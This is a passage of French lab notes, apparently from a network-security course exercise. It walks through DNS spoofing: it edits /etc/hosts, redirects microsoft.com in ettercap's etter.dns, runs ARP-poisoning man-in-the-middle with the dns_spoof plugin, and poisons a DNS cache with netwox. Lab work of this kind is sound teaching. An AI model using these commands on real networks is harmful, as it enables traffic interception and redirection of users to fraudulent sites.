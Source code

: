modifier le fichier **/etc/hosts** sur la machine DNS Client. Rajoutez à la 3<sup>ème</sup> ligne :  

```
1.2.3.4   www.mabanque.ch
```

On essaie maintenant de ping *www.mabanque.ch* et on obtient :  
![](screenshots/wiresharkMaBanque.png)  

### 5. Configuration machine Attanquante

modifier le fichier **/etc/ettercap/etter.dns**. Dans la partie *"microsoft sucks :)"* :  

```
microsoft.com A 192.168.192.132
*.microsoft.com A 192.168.192.132
www.microsoft.com PTR 192.168.192.132
```

Start ettercap avec une interface graphique :  
```
ettercap -G
```

Dans les onglets :  
* sniff->Unified Sniffing->eth0  
* hosts->scan for host  
* hosts->hosts list->192.168.192.129 et 192.168.192.133  
* MITM->ARP Poisonning->Sniff remote Connection->Valider  
* Plugins->Manage the plugins->dns_spoof  

Vider le cache sur le client :  
```
sudo systemd-resolve --flush-caches
```

**Vérifier et montrer que l'attaque fonctionne. Désactiver le spoofing et refaire une requête, que se passe-t-il ? Pourquoi ?**  

On ne peut toujours pas accéder au site car l'adresse de l'attaquant et toujours dans le cache.  

### 6. Poisonning DNS

supprimer le cache du serveur DNS.  

```
sudo rmdc flush
```

Poisonning DNS:  
```
sudo netwox 105 -h www.hepia.ch -H 192.168.192.132 -a ns.hepia.ch -A 192.168.192.132 --spoofip "raw" --ttl 86400
```
